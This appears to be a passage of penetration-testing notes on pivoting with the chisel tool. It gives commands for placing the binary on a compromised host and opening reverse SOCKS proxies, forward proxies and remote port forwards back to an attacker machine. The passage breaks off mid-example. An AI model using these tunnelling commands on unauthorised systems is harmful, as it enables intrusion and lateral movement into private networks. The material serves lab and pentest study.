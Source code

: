```console
$ scp -i key chisel user@target:/tmp/chisel-USERNAME
```

Chisel has two modes: **client** and **server**.

###### Reverse SOCKS Proxy

This will connect *back* from a compromised server to a listener on our attacking machine:

```console
# attacker machine
$ ./chisel server -p LISTEN_PORT --reverse &

# compromised host
$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

Note, `R:socks` means "remote" which tells chisel client that the server anticipates the proxy/port forward to be made at the client side.

###### Forward SOCKS Proxy

Generally, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (handling inbound connections).  The syntax for this is as follows:

```console
# attacker machine
$ ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

# compromised host
$ ./chisel server -p LISTEN_PORT --socks5
```

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port `8080` of `172.16.0.10`.  A SOCKS proxy would also be opened on port `1337` on our attacker machine.

Note that chisel uses a `SOCKS5` proxy, so this must be reflected in the proxychains configuration file.

###### Remote Port Forward

Here, we connect back from a compromised host to create the forward:

```console
# attacker machine
./chisel server -p LISTEN_PORT --reverse &

# compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

Here, the `LISTEN_PORT` is the port we start the chisel server on and `LOCAL_PORT` is the prot we wish to open on our attacker machine to link with the desired target port.

For example, assuming our IP is `172.16.0.20`, the compromised host's IP is `172.16.0.5` and our target is port `22` on `172.16.0.10`.  To forward `172.16.0.10:22` to port `2222` on our attacker machine:
